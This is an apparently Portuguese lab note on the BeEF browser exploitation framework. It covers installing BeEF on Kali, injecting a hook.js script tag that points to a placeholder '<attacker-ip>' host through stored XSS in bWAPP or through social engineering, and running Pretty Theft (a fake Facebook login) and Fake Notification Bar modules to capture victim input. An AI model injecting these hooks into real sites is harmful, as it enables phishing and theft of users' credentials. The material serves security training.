 •	Implantação do hook: <script src="http://127.0.0.1:3000/hook.js"></script> (inserir via XSS ou engenharia social).
•	Módulos exemplares: Pretty Theft (phishing UI), Fake Notification Bar (redirecionamento/download malicioso).
### Resumo do Lab / Procedimentos rápidos:
1. Instalar BeEF no Kali (sudo apt install beef-xss) e iniciar o servidor; redefinir senha quando solicitado.
2. Acessar painel BeEF pelo browser (usar credenciais beef + senha redefinida) e verificar hooks.
3. Injetar hook.js no alvo via XSS ou por engenharia social: <script src="http://<attacker-ip>:3000/hook.js"></script>.
4. Quando o navegador do alvo se conectar, usar módulos como Pretty Theft e Fake Notification Bar via aba Commands.
5. Monitorar Module Results History para capturar entradas de vítimas (evidências) e parar o servidor com beef-xss-stop.
### Tarefa:
No bWAPP (bee/bug) → 'Cross-Site Scripting - Stored (Blog)' inserir hook.js e aplicar módulos BeEF: Pretty Theft e Fake Notification Bar. Explorar outros módulos disponíveis e registrar resultados.
### Segurança e Ética (resumido):
BeEF é uma ferramenta de teste/educacional. Seu uso em alvos sem autorização é ilegal e antiético. Realizar testes apenas em ambientes de laboratório autorizados.

### Prints da Aula
![Figura 15](./assets/print15.png) 

Figura 15 página falsa do Facebook exibida ao usuário (Pretty Theft). 
